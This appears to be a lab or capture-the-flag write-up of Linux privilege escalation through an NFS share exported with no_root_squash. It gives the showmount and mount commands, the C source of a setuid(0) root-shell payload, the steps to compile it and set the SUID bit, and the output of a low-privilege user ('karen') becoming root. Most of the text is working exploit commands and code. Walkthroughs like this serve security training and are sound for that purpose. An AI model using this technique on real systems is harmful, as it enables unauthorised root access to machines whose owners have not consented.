 We note that /etc/exports file has files with no_root_squash this means that files can be created with root permission. 
  
So using the attacker's machine we access the victim's machine 
  
Using these commands 
  
Show mount to see mounted files. 
  
``` 
$ showmount -e 10.10.242.200 
Export list for 10.10.242.200: 
/home/ubuntu/sharedfolder * 
/tmp * 
/home/backup * 
``` 
  
We then create a folder to mount the file then connect it to the victim NFS 
  
``` 
$ mkdir /tmp/sharedfolder 
$ mount -o rw 10.10.242.200:/home/ubuntu/sharedfolder /tmp/sharedfolder 
``` 
  
We then create a payload. It's important that while creating the payload we ensure that. We set user id to 0 and group id to 0, fail to do this and the shell will revert to user from the root user account. 
  
User id 0 belongs to the root user account. 
  
``` 
#include <stdio.h> 
#include <stdlib.h> 
int main() 
{ 
setgid(0); 
setuid(0); 
system("/bin/bash"); 
return 0; 
} 
``` 
  
We then compile it and assign a suid bit and run it 
  
``` 
$ gcc main.c -o pwned -w 
$ sudo chmod 777 /tmp/sharedfolder/pwned 
$ sudo chmod +s /tmp/sharedfolder/pwned 
karen@ip-10–10–242–200:/home/ubuntu/sharedfolder$ whoami 
karen 
karen@ip-10–10–242–200:/home/ubuntu/sharedfolder$ id 
uid=1001(karen) gid=1001(karen) groups=1001(karen) 
karen@ip-10–10–242–200:/home/ubuntu/sharedfolder$ ls -lh 
total 16K 
-rwsr-sr-x 1 root root 16K Nov 11 12:44 pwned 
karen@ip-10–10–242–200:/home/ubuntu/sharedfolder$ ./pwned 
root@ip-10–10–242–200:/home/ubuntu/sharedfolder# 
``` 
  
